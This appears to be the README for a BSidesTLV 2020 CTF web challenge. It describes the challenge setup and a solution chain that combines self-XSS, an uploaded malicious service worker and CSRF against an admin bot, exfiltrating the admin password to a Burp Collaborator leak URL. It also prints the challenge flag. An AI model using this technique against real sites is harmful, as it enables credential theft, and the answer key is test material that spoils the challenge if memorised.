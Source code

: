 # bugler
[BSidesTLV CTF 2020] Bugler Challenge

![Challenge Description](resources/img/description.png)
_________________________________________________________

### Challenge Storyline
The admin of bugler is not new to Phishing attacks,  
He want to know that he's website customers are safe from these kind of attacks.  
So don't be selfish share phishing sites of malicious users, the admin will appreciate your service.  

### Challenge Design
The challenge components are:  
* challenge (Backend + Forntend Server)  
* database (MongoDB for registrations)
* queue (rabbitmq queue between the bot and the challenge)
* bot (puppeteer chromium based headless browser with a queue that get messages from the challenge)

### Challenge Scaled Designed
* create as much bot instances as you need
* you can also create more challenge isntances
* creat network file storage (nfs) and connect it to the challenge instances at /app/public/upload.
* create a load balancer and let it balance between the challenge instances. (no sticky cookie needed if you are not duplicating the database, queue and nfs).

### Challenge Solution
1) Deploy the app: docker-compose up --build -d
2) Its better to add "127.0.0.1 bugler.ctf.bsidestlv.com" to the hosts file
3) Execute solution.py (tested with python3)
   ```bash
   cd solution
   pip install requirements.txt
   python solution.py -l {LEAK_URL}
   ```
   * LEAK_URL - Burp Collaborator / RequestBin / Other URL
   * Example: python solution.py -l https://r6yhg580xmz4aawm50mqprae95fw3l.burpcollaborator.net/
4) Decode the argument from the query parameter password and you have the flag: **BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}**

### Challenge Solution Explanation
The exploit create a new user (if not exist, if exist it will login),   
Update the profile (which is vulnerable to self XSS): 
* upload service_worker.js file as the **avatar**  
* set csrf url as the **website**
* set address/city as the XSS payload which installs the service worker   

The user need to understand that he must use CSRF in order to get the admin execute the XSS payload,    
The CSRF attack is possible from the public profile of the user (by clicking on the profile picture) and reporting website as a phishing site....
The user will see the response header **"Service-Worker-Allowed: /"** and he will know he must use service workers in order to get the admin access (the admin wasn't login before the attack - short session cookie).    
With the service workers he will get all the admin traffic and the flag will be in the admin password.  
 
  
